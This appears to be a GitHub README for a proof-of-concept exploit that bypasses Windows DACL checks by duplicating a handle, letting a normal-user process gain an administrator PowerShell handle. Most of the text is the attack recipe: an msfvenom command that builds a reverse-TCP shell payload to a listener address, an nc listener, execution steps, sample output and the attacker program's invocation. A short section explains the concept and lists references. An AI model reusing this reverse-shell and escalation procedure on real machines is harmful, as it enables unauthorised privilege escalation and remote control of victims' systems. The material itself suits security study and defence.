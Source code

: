 # DACL-Bypass

PoC for Bypassing DACL in Windows using DuplicateHandle.

Read more about this code: [Security of Handles in Windows](https://glory-part-39d.notion.site/Security-of-Handles-in-Windows-caaa2531a0914ef0b7779ea366f69bcb).

This code demonstrates how to create a security hole in your program, potentially leading to privilege escalation.

**Note: This is a Proof of Concept (PoC) and is for educational purposes only.**

## Running the Code

### Generate Shellcode for AttackerPE.exe and run listener

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.148 LPORT=443 -f c -b \x00\x0a\x0d
nc -lvvp 443
```

Copy the generated shellcode into `AttackerSource.cpp` and compile it.
```C
unsigned char shellcode[] = "";
```

### Steps to Execute

Execute this code: [youtube Video](https://www.youtube.com/watch?v=BkHdezZufFA)

1. Run `powershell.exe` with Admin privileges.
2. Run `notepad.exe` with normal user privileges.
3. Run `vendor.exe` with Admin privileges.  (vendor.exe is a vulnerable program made for testing. In the real scenario, it can be any program like openvpn.exe, vmware.exe)

```
Vendor.exe
Enter the Process name that you want to get Handle (e.g., powershell.exe): powershell.exe
Enter the target Process name (e.g., notepad.exe): notepad.exe
[+] SeDebugPrivilege enabled successfully.
[+] PID of powershell.exe: 8420
[+] Handle of powershell.exe is OK
[*] Run Process Explorer and find handles of notepad.exe, then find a handle named powershell.exe
and write the address of the handle in AttackerPE code...
[*] Sleep(INFINITE). After running AttackerPE.exe, press Ctrl+C to exit.
```

4. Open **procexp64.exe** and copy the address of the handle (powershell.exe) from **notepad.exe**.
   
   ![Screenshot](https://github.com/mehrshadmollaafzal/BypassDACL/blob/main/Screenshot_Procexp.png)
   
6. Run `AttackerPE.exe` with normal user privileges.

```sh
AttackerPE.exe <address> <process name>
AttackerPE.exe 0xFFFFCE890F733080 notepad.exe
```

## Duplicate Handle and Bypass DACL Check (Core concept)

Duplicating a handle in the source process requires that the source process already has that handle, meaning the **DACL was checked** once during the handle's **Creation/Opening**. When duplicating a handle from the source to the destination process, no security checks are performed, It means that even the SID of the destination process is not checked with DACL.

![Diagram](https://github.com/mehrshadmollaafzal/BypassDACL/blob/main/Diagram.jpg)

## **References**

 [MSDN_DuplicateHandle](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-duplicatehandle)

[security-briefs-exploring-handle-security-in-windows](https://learn.microsoft.com/en-us/archive/msdn-magazine/2000/march/security-briefs-exploring-handle-security-in-windows)

[process-security-and-access-rights](https://learn.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights)

[DACLs_and_ACEs](https://learn.microsoft.com/en-us/windows/win32/secauthz/dacls-and-aces)

Windows Internals Books

Windows Kernel Programming Book
